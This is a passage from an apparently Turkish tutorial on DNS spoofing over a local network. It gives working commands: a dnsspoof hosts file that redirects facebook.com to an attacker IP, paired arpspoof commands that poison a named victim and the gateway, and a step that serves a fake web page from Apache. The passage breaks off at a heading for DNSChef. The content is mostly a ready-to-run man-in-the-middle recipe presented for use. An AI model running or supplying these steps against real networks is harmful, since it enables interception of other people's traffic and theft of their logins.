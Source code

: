 

2. **Hosts Dosyası Oluşturma:**

   - `/usr/share/dsniff/dnsspoof.hosts` dosyasını oluşturun ve şu formatta düzenleyin:

     ```

     192.168.1.100 facebook.com

     192.168.1.100 *.facebook.com

     ```

     Bu, tüm `facebook.com` sorgularını belirtilen IP’ye yönlendirir.



3. **ARP Spoofing ile Trafik Yönlendirme:**

   - Trafiği yönlendirmek için `arpspoof` kullanın:

     ```

     sudo arpspoof -i eth0 -t 192.168.1.11 192.168.1.1

     sudo arpspoof -i eth0 -t 192.168.1.1 192.168.1.11

     ```

     Burada `192.168.1.11` kurban, `192.168.1.1` ağ geçidi ve `eth0` ağ arayüzüdür.



4. **Dnsspoof Çalıştırma:**

   - Aşağıdaki komutla dnsspoof’u başlatın:

     ```

     sudo dnsspoof -i eth0 -f /usr/share/dsniff/dnsspoof.hosts

     ```

   - Bu, belirtilen hosts dosyasına göre DNS sorgularını yönlendirecektir.



5. **Web Sunucusu Kurulumu:**

   - Apache’yi başlatın ve sahte web sayfasını `/var/www/html/` dizinine yerleştirin.



**Not:** Dnsspoof’un çalışması için gerçek DNS yanıtından önce sahte yanıtın ulaşması gerekir. Bu nedenle ağda düşük gecikme önemlidir.,,[](https://null-byte.wonderhowto.com/how-to/hack-like-pro-spoof-dns-lan-redirect-traffic-your-fake-website-0151620/)[](https://security.stackexchange.com/questions/185389/dnsspoof-doesnt-spoof-dns-request-with-ip-address-of-local-machine)[](https://unix.stackexchange.com/questions/467701/dns-spoofing-in-kali-linux)



---



#### **3. DNSChef ile DNS Spoofing**
